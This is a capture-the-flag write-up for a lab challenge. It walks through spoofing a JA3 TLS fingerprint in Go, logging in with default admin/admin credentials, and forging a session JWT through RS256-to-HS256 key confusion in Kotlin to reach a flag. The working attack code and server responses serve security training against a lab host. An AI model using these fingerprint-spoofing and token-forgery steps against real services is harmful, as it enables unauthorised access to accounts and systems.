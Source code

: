 # HV20.17 Santa's Gift Factory Control

_Santa has a customized remote control panel for his gift factory at the north pole. Only clients with the following
fingerprint seem to be able to connect:_

`771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0`

## Mission

_Connect to Santa's super-secret control panel and circumvent its access controls._

[Santa's Control Panel](https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/)

## Hints

- _The remote control panel does client fingerprinting_

---

This is about [TLS fingerprinting](https://blog.squarelemon.com/tls-fingerprinting/).

The server responds with `HTTP 403 Forbidden`. We will have to bypass it somehow.

Read [Impersonating JA3 Fingerprint](https://medium.com/cu-cyber/impersonating-ja3-fingerprints-b9f555880e42). It comes
with this nice [JA3Transport](https://github.com/CUCyber/ja3transport) library which is written
in [Go](https://golang.org/).

I wasn't familiar with Go at all...

This is how I bypassed the TLS fingerprinting filter:

```go
package main

import "fmt"
import "io/ioutil"
import "net/http"
import "github.com/CUCyber/ja3transport"

func main() {
    client, _ := ja3transport.NewWithString("771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0")
    
    // Get homepage
    req, _ := http.NewRequest("GET", "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/", nil)
    resp, _ := client.Do(req)
    
    // Print response headers
    for k, v := range resp.Header {
        fmt.Print(k)
        fmt.Print(" : ")
        fmt.Println(v)
    }
    
    // Print response body
    defer resp.Body.Close()
    bodyBytes, _ := ioutil.ReadAll(resp.Body)
    bodyString := string(bodyBytes)
    fmt.Print(bodyString)
}
```

Response from the server:

```
Server : [nginx/1.19.6]
Date : [Thu, 17 Dec 2020 20:19:17 GMT]
Content-Type : [text/html; charset=utf-8]
Content-Length : [1103]
Connection : [keep-alive]
2020/12/17 21:19:16 <!DOCTYPE html>
```
```html
<html>
    <head>
        <meta charset="utf-8">
        <title>Santa's Control Panel</title>
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <link href="static/bootstrap/bootstrap.min.css" rel="stylesheet" media="screen">
        <link href="static/fontawesome/css/all.min.css" rel="stylesheet" media="screen">
        <link href="static/style.css" rel="stylesheet" media="screen">
    </head>
    <body>
        <div class="login">
            <h1>Login</h1>
            <form action="/login" method="post">
                <label for="username">
                    <i class="fas fa-user"></i>
                </label>
                <input type="text" name="username" placeholder="Username" id="username">
                <label for="password">
                    <i class="fas fa-lock"></i>
                </label>
                <input type="password" name="password" placeholder="Password" id="password">
                
                <input type="submit" value="Login">
            </form>
        </div>
        
    </body>
</html>
```

A simple login form... I tried a few things such as SQL injection or guessing the password. I got lucky when
sending `admin/admin`:

```go
// Send login
req, _ := http.NewRequest("POST", "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/login", strings.NewReader("username=admin&password=admin"))
req.Header.Set("Content-Type", "application/x-www-form-urlencoded")
resp, _ := client.Do(req)
```

Response from the server:

```
ontent-Type : [text/html; charset=utf-8]
Content-Length : [1275]
Connection : [keep-alive]
Set-Cookie : [session=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Ii9rZXlzLzFkMjFhOWY5NDUifQ.eyJleHAiOjE2MDgyNDA1ODYsImlhdCI6MTYwODIzNjk4Niwic3ViIjoibm9uZSJ9.c19Xrlilv1H3k47UJlObQSn4ihlIgahge4u8141AcgFEmqAqXYNM68SUTa9gw0-IGI02t1hxSSBp1Ro_6O3LV0RUz0AHW5p7ZpqQpunJooZLXePddakn0flyi9XafP4JM_pVn9eTOAmn32Pj0_IaAQ6z_fGJcAxuQ2e8QLmW3abW0VNsTO_Df8zdpUZ8xyYbTQ_f44KSu42u5wqPgspNXQmMAX7cMoHC4UJzjPffAKE46rCaX7pS1zHPH5k0SwSBKdJ9VEMl4KYpkmqyOmGPScF6Qaj--Qgjpc87kecDimEAAHn85_VWbhbI4r19LyovTen1hcNB1nKD2ZsoyXEofg; Path=/]
Server : [nginx/1.19.6]
Date : [Thu, 17 Dec 2020 20:29:46 GMT]
<!DOCTYPE html>
    ...
    <!--DevNotice: User santa seems broken. Temporarily use santa1337.-->
</html>
```

Cool, we know Santa's login now!

There is one more important thing - a session with JWT token!

I decoded the token at https://jwt.io/:

```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "/keys/1d21a9f945"
}
{
  "exp": 1608240586,
  "iat": 1608236986,
  "sub": "none"
}
```

It's signed with an RSA public key located under `/keys/1d21a9f945`.

Let's get the key:

```
// Get key
req, _ := http.NewRequest("GET", "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/keys/1d21a9f945", nil)
resp, _ := client.Do(req)
```

Response from the server (or as a file [key.pub](key.pub)):

```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY
Ri7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb
SYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs+2tmcgui/bFn
wC+qByZtIlsP+rlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3
US8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq+tH95/9u
X/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw
zwIDAQAB
-----END PUBLIC KEY-----
```

I tried to crack the key with [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool) but it looks solid.

I knew about some attacks against JWT tokens. Simplest one is just changing the verification from `RS256` to `none`
and strip the signature. It didn't work though.

Then I came across this
article [Critical vulnerabilities in JSON Web Token libraries](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)
. There is a very nice attack against RSA verified tokens. Read the details in the article and pay big attention to
> The trickiest part is making sure that serverRSAPublicKey is identical to the verification key used on the server. The strings must match exactly for the attack to work -- exact same format, and no extra or missing line breaks.

I crafted my forged token with a Java lib:

```kotlin
import cz.vernjan.ctf.Resources
import io.jsonwebtoken.Jwts
import io.jsonwebtoken.security.Keys
import java.util.*

fun main() {
    val key = Keys.hmacShaKeyFor(Resources.asBytes("hv20/key.pub"))

    val jws = Jwts.builder()
        .setSubject("santa1337")
        .setIssuedAt(Date())
        .setExpiration(Date(System.currentTimeMillis() + 1000 * 3600 * 24))
        .setHeaderParam("kid", "1d21a9f945")
        .signWith(key).compact()

    println(jws)
}
```

Prints `eyJraWQiOiIxZDIxYTlmOTQ1IiwiYWxnIjoiSFM1MTIifQ.eyJzdWIiOiJzYW50YTEzMzciLCJpYXQiOjE2MDgyMzc5MDQsImV4cCI6MTYwODMyNDMwNH0.W5o5nvnVzubP_pChXtPPSD0HTgEv1JSemLHRLfiYl7RPt3Zg8n48REDRWb9oLZXku3hWyDZX0nHQK4OBhy7Wbg`

Grab the token and use it to bypass the login (full source at [client.go](client.go)):

```go
// Get homepage
req, _ := http.NewRequest("GET", "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/", nil)
req.Header.Set("Cookie", "session=eyJraWQiOiIxZDIxYTlmOTQ1IiwiYWxnIjoiSFM1MTIifQ.eyJzdWIiOiJzYW50YTEzMzciLCJpYXQiOjE2MDgyMjgzNDQsImV4cCI6MTYwODMxNDc0NH0.ly4-lXnExyYE4bm2n42shPxK-XXHNaVLVcTMkeo13Q1DUYhalUViA3ereutshmHTNtL3tdrnZAxlGQSkkAM1FQ")
resp, _ := client.Do(req)
```

Response from the server:

```
...
<!--Congratulations, here's your flag: HV20{ja3_h45h_1mp3r50n4710n_15_fun}-->
...
```

The flag is `HV20{ja3_h45h_1mp3r50n4710n_15_fun}`

---

💡 Fun fact, Python lib [PyJWT](https://pyjwt.readthedocs.io/en/stable/) is too smart for this job and won't let you use
RSA public key for signing with HMAC:

```python
import jwt

f = open("key.pub", "r")
key = f.read()

payload = {
    "exp": 1609229515,
    "iat": 1608225915,
    "sub": "santa1337"
}

encoded_jwt = jwt.encode(payload, key, algorithm='HS256', headers={'kid': '1d21a9f945'})
print(encoded_jwt)
```

Exits with error:

```
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.
```
